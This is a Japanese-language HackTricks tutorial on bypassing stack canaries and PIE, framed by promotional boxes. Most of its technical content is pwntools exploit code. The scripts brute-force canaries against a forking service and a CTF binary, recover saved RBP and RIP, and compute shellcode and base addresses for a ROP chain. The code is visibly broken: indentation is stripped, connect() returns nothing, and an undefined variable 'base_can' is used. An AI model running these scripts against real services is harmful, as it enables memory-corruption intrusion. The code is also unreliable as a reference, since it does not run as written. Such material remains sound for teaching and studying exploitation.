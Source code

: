 <details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**する。
* **ハッキングトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>


**キャナリーとPIE（Position Independent Executable）で保護されたバイナリに直面している場合、それらをバイパスする方法を見つける必要があるかもしれません。**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
**`checksec`** がバイナリが保護されていることを見つけられない場合があることに注意してください。これは静的にコンパイルされており、関数を識別することができない場合です。\
ただし、関数呼び出しの開始時にスタックに値が保存され、この値が終了前にチェックされる場合、これを手動で気付くことができます。
{% endhint %}

# キャナリーのブルートフォース

単純なキャナリーをバイパスする最良の方法は、バイナリが**新しい接続を確立するたびに子プロセスをフォークするプログラム**（ネットワークサービス）である場合です。なぜなら、接続するたびに**同じキャナリーが使用される**からです。

そのため、キャナリーをバイパスする最良の方法は、単に**1文字ずつキャナリーをブルートフォースする**ことであり、推測されたキャナリーバイトが正しいかどうかを確認することができます。プログラムがクラッシュしたか、通常のフローが続行されたかを**確認**するだけです。この例では、関数は**8バイトのキャナリー（x64）**をブルートフォースし、正しく推測されたバイトと誤ったバイトを区別します。**サーバーからの応答**が送信されたかどうかを確認する（他の状況では**try/except**を使用することもできます）。

## 例1

この例は64ビット用に実装されていますが、32ビット用に簡単に実装できます。
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## 例2

これは32ビット用に実装されていますが、簡単に64ビットに変更できます。\
また、この例では**プログラムが最初に入力のサイズを示すバイトとペイロードを期待していることに注意してください**。
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# キャナリーの印刷

キャナリーをバイパスする別の方法は、**それを印刷する**ことです。\
スタックオーバーフローに脆弱な**プログラム**が、**スタックオーバーフローの一部を指す** **puts** 関数を実行できる状況を想像してみてください。攻撃者は、**キャナリーの最初のバイトがヌルバイト** (`\x00`) であり、残りのキャナリーが**ランダムな**バイトであることを知っています。その後、攻撃者は、**キャナリーの最初のバイトだけが残るまでスタックを上書きする**オーバーフローを作成する可能性があります。\
その後、攻撃者は、ペイロードの中間で **puts 機能を呼び出し**、キャナリー全体を印刷します（最初のヌルバイトを除く）。\
この情報を使用して、攻撃者は、キャナリーを知っている状態で新しい攻撃を作成して送信できます（**同じプログラムセッション**内で）

明らかに、この戦術は非常に**制限されて**います。攻撃者は、**ペイロードの内容を印刷**して**キャナリーを外部に送信**し、その後新しいペイロードを作成して（**同じプログラムセッション**内で）**実際のバッファオーバーフローを送信**できる必要があります。\
CTFの例: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

PIEをバイパスするには、**いくつかのアドレスをリークする**必要があります。バイナリがアドレスをリークしていない場合、脆弱な関数でスタックに保存された **RBP と RIP をブルートフォース** するのが最善です。\
例えば、**キャナリー** と **PIE** の両方を使用して保護されたバイナリがある場合、キャナリーをブルートフォースしてから、**次の** 8バイト（x64）が保存された **RBP** であり、**次の** 8バイトが保存された **RIP** になります。

バイナリから RBP と RIP をブルートフォースするには、プログラムが何かを出力するか、クラッシュしない場合に、有効な推測されたバイトが正しいことがわかります。キャナリーをブルートフォースするために提供された**同じ関数**を使用して、RBP と RIP をブルートフォースすることができます:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## ベースアドレスの取得

PIEを打破するために必要な最後のステップは、**漏洩したアドレスから有用なアドレスを計算する**ことです：**RBP**と**RIP**。

**RBP**からは、**スタック内にシェルを書き込んでいる場所を計算**することができます。これは、スタック内に文字列_"/bin/sh\x00"_を書き込む場所を知るのに非常に役立ちます。漏洩したRBPとシェルコードの間の距離を計算するには、**RBPを漏洩させた後にブレークポイントを設定**し、**シェルコードがどこにあるかを確認**してから、シェルコードとRBPの間の距離を計算できます：
```python
INI_SHELLCODE = RBP - 1152
```
**RIP**から、**PIEバイナリのベースアドレス**を計算できます。これは、**有効なROPチェーン**を作成するために必要となります。\
ベースアドレスを計算するには、単に`objdump -d vunbinary`を実行し、最新のアドレスを逆アセンブルして確認します:

![](<../../.gitbook/assets/image (145).png>)

この例では、コードをすべて特定するのに**1バイトと半分だけが必要**であることがわかります。そのため、この状況でのベースアドレスは、**"000"で終わる漏洩したRIP**になります。たとえば、もし_0x562002970**ecf**_が漏洩した場合、ベースアドレスは_0x562002970**000**_になります。
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**をフォローする**
* **ハッキングトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **githubリポジトリに提出してください。**

</details>
